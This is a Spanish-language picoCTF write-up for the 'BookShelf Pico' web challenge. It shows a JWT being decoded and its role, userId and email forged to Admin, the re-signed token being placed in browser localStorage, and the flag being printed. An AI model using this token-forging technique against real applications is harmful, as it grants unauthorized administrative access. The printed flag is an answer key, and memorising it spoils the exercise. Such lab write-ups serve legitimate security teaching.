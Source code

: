 ### Descripción
BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!Here are the credentials to get you started:

- Username: "user"
- Password: "user"

Source code can be downloaded [here](https://artifacts.picoctf.net/c/478/bookshelf-pico.zip).Website can be accessed [here!](http://saturn.picoctf.net:54685/).

Hints:
1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
4. Upgrade your 'role' with the _new_ (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.

### Solución
Al entrar al servidor observamos una imagen FLAG restringida a la que solo se puede acceder como Admin.
Inspeccionamos la imagen para sacar el token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc0NTM3NDgyNiwiaWF0IjoxNzQ0NzcwMDI2LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.T8W0beBQ3GTQuKvP4PBc7y3tIFc8UG49YT6AZbJqQJY

{"role":"Free","iss":"bookshelf","exp":1745374826,"iat":1744770026,"userId":1,"email":"user"}
```

En jwt.io hay que modificar el role, userId y el email:
```
{"role":"Admin","iss":"bookshelf","exp":1745374826,"iat":1744770026,"userId":2,"email":"admin"}

Token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDUzNzQ4MjYsImlhdCI6MTc0NDc3MDAyNiwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.HJBj_TwdCl2Rl3RIN7VGXwXoLFd7idJXI3W0qH9Ez8g
```

Ahora esos valores los sustituimos en el Local storage de la página y la recargamos para observar la imagen:
```
Great job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_602ce414}
```

Flag:
picoCTF{w34k_jwt_n0t_g00d_602ce414}
### Notas adicionales

### Referencias
https://webshell.picoctf.org/
https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=MHg3MA